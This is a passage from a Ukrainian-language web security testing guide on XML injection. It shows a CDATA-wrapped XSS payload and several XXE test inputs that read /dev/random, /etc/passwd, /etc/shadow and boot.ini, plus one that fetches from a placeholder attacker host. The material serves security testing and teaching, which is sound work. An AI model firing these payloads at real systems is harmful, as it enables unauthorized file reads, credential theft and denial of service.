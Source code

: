 ```
<html>
    <![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>
</html>
```

Під час обробки видаляються роздільники розділів CDATA, в результаті чого генерується наступний HTML-код:

```
<script>
    alert('XSS')
</script>
```

В результаті додаток є вразливим до XSS.

Зовнішня сутність: 
Набір допустимих сутностей можна розширити, визначивши нові сутності. Якщо визначенням сутності є URI, така сутність називається зовнішньою сутністю. Якщо не налаштовано інакше, зовнішні сутності змушують аналізатор XML звертатися до ресурсу, визначеного URI, наприклад, до файлу на локальній машині або на віддаленій системі. Така поведінка робить додаток вразливим до атак XML eXternal Entity (XXE), які можуть бути використані для відмови в обслуговуванні локальної системи, отримання несанкціонованого доступу до файлів на локальній машині, сканування віддалених машин і відмови в обслуговуванні віддалених систем.

Для перевірки на наявність XXE уразливостей можна використати наступні вхідні дані:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///dev/random" >]>
        <foo>&xxe;</foo>
```

Цей тест може призвести до аварійного завершення роботи веб-сервера (в системі UNIX), якщо аналізатор XML спробує замінити сутність вмістом файлу /dev/random.
Інші корисні тести наведені нижче:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]><foo>&xxe;</foo>
```
